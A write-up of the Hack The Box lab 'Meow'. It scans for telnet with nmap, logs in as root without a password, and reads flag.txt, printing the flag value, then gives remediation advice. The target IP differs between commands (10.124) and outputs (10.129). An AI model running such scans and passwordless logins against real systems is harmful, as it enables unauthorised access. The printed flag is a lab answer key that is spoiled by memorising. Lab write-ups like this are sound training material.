 # HTB Starting Point Lab Walkthrough: Meow (Linux Box)

## Executive Summary

- **Lab Objective**: Enumerate and exploit a telnet service on the target machine to gain root access and retrieve a flag, simulating basic remote access reconnaissance.
- **Target IP**: 10.124.44.45
- **Key Findings**: Identified an open telnet service on port 23, allowing root login without a password. This enabled immediate access to the system and retrieval of a sensitive file (`flag.txt`).
- **Impact**: In a real-world scenario, unauthenticated telnet access could allow full system compromise, including data theft and malicious code execution.
- **Recommendations**: Disable telnet entirely, use encrypted protocols like SSH, and enforce strong authentication.
- **Completion Date**: June 30, 2025
- **Tools Used**: Nmap, telnet (on Kali Linux)

## Methodology and Scope

This walkthrough follows a standard reconnaissance and access process for the HTB Starting Point lab "Meow." The scope was limited to port scanning, service enumeration, and file access via telnet on the provided target IP. No advanced exploitation or privilege escalation was required.

Steps were performed in a controlled lab environment using default Kali tools. Assumptions: Target is a Linux machine (Ubuntu 20.04.2 LTS) running a telnet service.

## Findings

### Finding 1: Telnet Service Identification

- **Description**: Telnet is an unencrypted remote access protocol running on port 23. A scan confirmed the service is active on the target.
- **Severity**: Informational (baseline enumeration).
- **Steps to Reproduce**:
    1. Perform a targeted port scan using Nmap:
        
        ```bash
        nmap -sS -p 23 10.124.44.45
        ```
        
        Output:
        
        ```bash
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-30 15:57 EDT
        Nmap scan report for 10.129.44.45
        Host is up (0.021s latency).
        PORT   STATE SERVICE
        23/tcp open  telnet
        Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
        ```
        
- **Impact**: Confirms telnet is active, enabling further enumeration and potential access attempts.
- **Evidence**: Nmap scan results above.
- **Remediation**: N/A (informational).

### Finding 2: Unauthenticated Telnet Access as Root

- **Description**: The telnet service allows login as the `root` user without requiring a password, granting immediate administrative access to the system.
- **Severity**: Critical (unauthenticated root access).
- **Steps to Reproduce**:
    1. Connect to the target via telnet:
        
        ```bash
        telnet 10.124.44.45 23
        ```
        
        Output:
        
        ```bash
        Trying 10.129.44.45...
        Connected to 10.129.44.45.
        Escape character is '^]'.
        ```
        
    2. Login with username `root` and no password:
        
        ```bash
        Meow login: root
        Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
        
        * Documentation:  https://help.ubuntu.com
        * Management:     https://landscape.canonical.com
        * Support:        https://ubuntu.com/advantage
        
        System information as of Mon 30 Jun 2025 08:01:24 PM UTC
        
        System load:           0.06
        Usage of /:            41.7% of 7.75GB
        Memory usage:          4%
        Swap usage:            0%
        Processes:             135
        Users logged in:       0
        IPv4 address for eth0: 10.129.44.45
        IPv6 address for eth0: dead:beef::250:56ff:feb0:442b
        ```
        
- **Impact**: Unauthenticated root access allows full control of the system, including file access, modification, and execution of arbitrary commands, equivalent to a total system compromise.
- **Evidence**: Telnet login output above.
- **Remediation**: Disable telnet service; replace with SSH using strong authentication (e.g., key-based or complex passwords).

### Finding 3: File Retrieval via Telnet

- **Description**: After gaining root access via telnet, located and retrieved a sensitive file (`flag.txt`) from the root directory.
- **Severity**: Critical (successful data exfiltration).
- **Steps to Reproduce**:
    1. List files in the root directory:
        
        ```bash
        ls
        ```
        
        Output:
        
        ```bash
        flag.txt  snap
        ```
        
    2. View the contents of the flag file:
        
        ```bash
        cat flag.txt
        ```
        
        Output:
        
        ```bash
        b40abdfe23665f766f9c61ecba8a4c19
        ```
        
- **Impact**: Access to sensitive files demonstrates the ability to extract critical data, simulating a real-world data breach.
- **Evidence**: Command outputs and flag value above.
- **Remediation**: Remove unnecessary sensitive files; enforce strict file permissions; monitor for unauthorized access.

## Recommendations

- Disable telnet on all systems and replace with SSH configured with key-based authentication.
- Use firewalls to restrict access to remote services (e.g., allow only trusted IPs).
- Regularly scan for open ports and insecure services using tools like Nmap or Nessus.
- For labs like this, practice enumerating telnet with tools like Metasploit’s telnet_login module to explore additional attack vectors.

## Appendices

- **Raw Notes/Logs**: (Optional—attach full session logs if sharing.)
- **Screenshots**: (Add here if available, e.g., terminal captures.)
- **Key Takeaway**: Telnet is highly insecure due to its lack of encryption, making all communications vulnerable to interception. Avoid using telnet in production environments.